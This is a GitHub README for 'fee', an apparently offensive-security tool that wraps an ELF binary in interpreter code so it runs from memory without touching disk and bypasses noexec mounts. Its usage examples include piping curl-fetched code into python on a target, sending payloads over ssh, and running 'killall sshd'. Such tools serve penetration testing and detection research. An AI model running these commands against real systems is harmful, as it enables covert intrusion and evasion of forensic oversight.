 ## Execute ELF files on a machine without dropping an ELF

[![Code style: black](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)

### Description

This Python script generates interpreted code which creates the supplied ELF as a file in memory and executes it (without tmpfs). This makes it possible to execute binaries without leaving traces on the disk.

The technique used for this is explained [here](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).

With default options for each interpreter, running binaries using `fee` does not write to disk whatsoever. This can be verified using tools such as `strace`.

`fee` also completely ignores and bypasses `noexec` mount flags, even if they were set on `/proc`.


### Target requirements

 * kernel: 3.17 or later (for `memfd_create` support)
 * An interpreter. Any of these:
   * Python 2
   * Python 3
   * Perl
   * Ruby


### Installation

Install this on your host machine using [pipx](https://github.com/pypa/pipx):
```console
$ pipx install fee
```

... or regular pip:
```console
$ pip install --user fee
```

You may also clone this repository and run the script directly.

### Usage

Basic usage: supply the path to the binary you wish to drop:

```console
$ fee /path/to/binary > output.py
```

You can then pipe this into Python on the target:

```console
$ curl my.example.site/output.py | python
```

Alternatively, you may generate Perl or Ruby code instead with the `--lang` flag (`-l`):
```console
$ fee /path/to/binary -l pl | perl
```

```console
$ fee /path/to/binary -l rb | ruby
```

If you want to pipe over ssh, use the `--with-command` flag (`-c`) to wrap the output in `python -c` (or `perl -e`, `ruby -e` accordingly):

```console
$ fee -c /path/to/binary | ssh user@target
```

When piping over ssh, you sometimes want to wrap the long line which holds the base64-encoded version of the binary, as some shells do not like super long input strings. You can accomplish this with the `--wrap` flag (`-w`):
```console
$ fee -c /path/to/binary -w 64 | ssh user@target
```

If you want to customise the arguments, use the `--argv` flag (`-a`):

```console
$ fee -a "killall sshd" ./busybox > output.py
```

__NB!__ By default, the script parses the encoded ELF's header to determine the target architecture. This is required to use the correct syscall number when calling `memfd_create`. If this fails, you can use the `--target-architecture` (`-t`) flag to explicitly generate a syscall number. Alternatively, you can use the `libc` target to resolve the symbol automatically at runtime, although this only works when generating Python code.
For more exotic platforms, you should specify the syscall number manually. You need to search for `memfd_create` in your target's architecture's syscall table. This is located in various places in the Linux kernel sources. Just Googling `[architecture] syscall table` is perhaps the easiest. You can then specify the syscall number using the `--syscall` flag (`-s`).

Full help text:
```
usage: fee [-h] [-t ARCH | -s NUM] [-a ARGV] [-l LANG] [-c] [-p PATH] [-w CHARS] [-z LEVEL]
              path

Print code to stdout to execute an ELF without dropping files.

positional arguments:
  path                  path to the ELF file

optional arguments:
  -h, --help            show this help message and exit
  -t ARCH, --target-architecture ARCH
                        target platform for resolving memfd_create (default: detect from ELF)
  -s NUM, --syscall NUM
                        syscall number for memfd_create for the target platform
  -a ARGV, --argv ARGV  space-separated arguments (including argv[0]) supplied to execle (default:
                        path to file as argv[0])
  -l LANG, --language LANG
                        language for the generated code (default: python)
  -c, --with-command    wrap the generated code in a call to an interpreter, for piping directly
                        into ssh
  -p PATH, --interpreter-path PATH
                        path to interpreter on target if '-c' is used, otherwise a sane default is
                        used
  -w CHARS, --wrap CHARS
                        when base64-encoding the elf, how many characters to wrap to a newline
                        (default: 0)
  -z LEVEL, --compression-level LEVEL
                        zlib compression level, 0-9 (default: 9)
```
